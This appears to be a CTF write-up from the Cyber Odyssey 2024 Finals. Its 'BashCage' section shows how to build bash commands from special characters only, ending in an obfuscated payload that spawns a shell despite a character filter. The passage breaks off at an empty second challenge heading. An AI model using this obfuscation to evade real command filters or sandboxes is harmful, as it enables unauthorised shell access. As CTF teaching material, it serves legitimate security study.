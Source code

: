 # Cyber Odyssey 2024 Finals - Full Writeup



## Intro

Dolphin supremacy 🐬🐬🐬🐬🐬🐬🐬🐬🐬🐬🐬🐬🐬🐬🐬🐬🐬🐬🐬🐬🐬

## BashCage - Misc

### Description

I heard you can execute bash commands using only special characters. Show me what you got!

### Explanation

Inspired by https://medium.com/@philomath213/securinets-ctf-quals-2019-special-revenge-6c923d5b900b and https://gist.github.com/dimasma0305/c3d5d3cac71c8240a491a3010f2372b8 

I pretty much had to write "sh" (which would open a shell) knowing that : 
{% raw %}
```sh
"0": "${#}",
"1": "${##}",
"2": "$((${##}<<$((${##}))))",
"3": "$((${##}<<$((${##}))^${##}))",
"4": "$((${##}<<$((${##}))<<$((${##}))))",
"5": "$((${##}<<$((${##}))<<$((${##}))^${##}))",
"6": "$(($((${##}<<$((${##}))^${##}))<<${##}))",
"7": "$(($((${##}<<$((${##}))^${##}))<<${##}^${##}))",
"8": "$((${##}<<$((${##}))<<$((${##}))<<$((${##}))))",
"9": "$((${##}<<$((${##}))<<$((${##}))<<$((${##}))^${##}))",
```

We can call a shell by doing : ```$'\163'$'\150'```

By trial and error I ended up with this "payload" where I believe I convert both 163 and 150 to binary : 

```sh
$'\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}${##}${##}))'$'\\$(($((${##}<<$((${##}))))#${##}${#}${#}${##}${#}${##}${##}${#}))'
```
{% endraw %}

## tskhinat - Rev

### Description



### Explanation
